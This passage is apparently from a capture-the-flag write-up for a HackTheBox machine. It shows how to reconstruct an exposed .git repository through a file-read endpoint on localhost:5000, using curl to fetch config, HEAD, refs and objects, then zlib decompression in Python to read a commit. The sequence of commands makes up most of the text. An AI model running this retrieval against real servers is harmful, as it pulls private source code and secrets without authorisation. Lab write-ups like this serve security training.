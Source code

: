 
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/config > .git/config
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/HEAD | tee .git/HEAD
    ref: refs/heads/master



Knowing the HEAD, I'll fetch the file in `refs/heads/[branch name]` that
will give the "tip-of-the-tree" commit:



    oxdf@hacky$ mkdir -p .git/refs/heads
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/refs/heads/master | tee .git/refs/heads/master
    9c17e5362e5ce2f30023992daad5b74cc562750b



I'm using `tee` to both see the contents of the file and save the file
into my repo. The commit is a SHA1 hash, and the associated objects will
be in `.git/objects/[first two char of sha1]/[rest of sha1]`:



    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b | tee .git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b
    xA
    0=,&m           nii`ʺ,ZAPH:S(\:Q:Of*/gIHy$
    Qb_bhZi6G)?'W;'a>gf
    i;/ҒE/



The results are not obvious. That's because they are [zlib
compressed](https://matthew-brett.github.io/curious-git/reading_git_objects.md).
That article shows up to decompress them with Python:



    oxdf@hacky$ python
    Python 3.11.2 (main, Feb  8 2023, 14:49:25) [GCC 11.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import zlib 
    >>> with open('.git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b', 'rb') as f:
    ...     compressed_contents = f.read()
    ... 
    >>> decompressed_contents = zlib.decompress(compressed_contents)
    >>> print(decompressed_contents.decode())
    commit 219tree 30617cae3686895c80152d93a0568e3d0b6a0c49
    parent a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
    author james <james@haxtables.htb> 1668104210 +0000
    committer james <james@haxtables.htb> 1668104210 +0000

    Updated scripts!



Alternatively, there's a `git` subcommand, `cat-file`
([docs](https://git-scm.com/docs/git-cat-file), that will do this:

